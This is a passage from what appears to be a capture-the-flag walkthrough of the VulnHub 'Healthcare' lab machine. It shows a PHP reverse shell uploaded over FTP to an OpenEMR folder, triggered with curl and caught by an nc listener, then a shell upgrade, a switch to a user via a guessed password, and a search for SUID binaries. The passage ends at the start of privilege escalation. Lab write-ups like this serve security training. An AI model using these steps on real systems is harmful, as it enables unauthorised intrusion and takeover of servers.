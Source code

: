 ```
drwxr-xr-x   8 root     root         4096 Jan  7  2018 vendor
226 Transfer complete
```
So, let's upload the reverse shell on box.
```
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful
150 Opening BINARY mode data connection for shell.php
226 Transfer complete
5493 bytes sent in 0.34 secs (15.7194 kB/s)
```
# Reverse Shell 
Access the reverse shell with url `http://ip/openemr/shell.php` and get the shell.
```
$ curl http://192.168.1.9/openemr/shell.php
```

```
$nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.9] 42953
Linux localhost.localdomain 2.6.38.8-pclos3.bfs #1 SMP PREEMPT Fri Jul 8 18:01:30 CDT 2011 i686 i686 i386 GNU/Linux
 10:01:29 up 19 min,  0 users,  load average: 1.00, 1.00, 0.74
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=479(apache) gid=416(apache) groups=416(apache)
sh: no job control in this shell
sh-4.1$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.1$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/healthcare]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/healthcare]
└──╼ $nc -nvlp 4444

bash-4.1$ export TERM=xterm
```
# User Medical
We can use the password `medical` to su user `medical`.
```
bash-4.1$ su - medical
su - medical
Password: medical

[medical@localhost ~]$ 
```

# Privesc to root
Looking at SUID files, `/usr/bin/healthcheck` stands out because it's not a standard Linux binary.
```
[medical@localhost ~]$ find / -perm -4000 2>/dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
```